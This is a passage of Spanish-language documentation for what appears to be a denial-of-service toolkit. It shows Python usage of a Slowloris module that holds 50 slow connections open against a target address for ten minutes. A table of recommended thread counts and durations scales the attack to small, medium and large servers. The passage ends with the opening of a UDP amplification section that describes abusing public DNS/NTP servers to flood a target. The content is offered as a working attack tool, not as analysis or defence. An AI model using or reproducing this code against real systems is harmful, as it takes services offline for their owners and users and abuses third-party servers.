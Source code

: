### Uso Programático (Python)

```python
from python.core.slowloris import Slowloris
import threading
import time

# Crear instancia
slow = Slowloris('192.168.1.1', 80)

# Enviar solicitud lenta
slow.send_slow_request()

# Mantener múltiples conexiones abiertas
def maintain_connections():
    sockets = []
    try:
        for i in range(50):
            sock = slow.create_connection()
            sockets.append(sock)
            print(f"[+] Conexión {i+1} abierta")
        
        # Mantener conexiones abiertas
        time.sleep(600)  # 10 minutos
        
    finally:
        slow.close_all_connections()

# Ejecutar en thread
t = threading.Thread(target=maintain_connections)
t.start()
t.join()
```

### Parámetros Recomendados

| Objetivo | Threads | Duración | Puerto |
|----------|---------|----------|--------|
| Servidor pequeño | 20-50 | 300-600s | 80 |
| Servidor mediano | 50-100 | 600-1200s | 80/8080 |
| Servidor grande | 100-300 | 1200-3600s | 80/8080/8000 |

---

## UDP-Amplification

### Descripción
Explota servidores DNS/NTP públicos para amplificar tráfico hacia el objetivo.
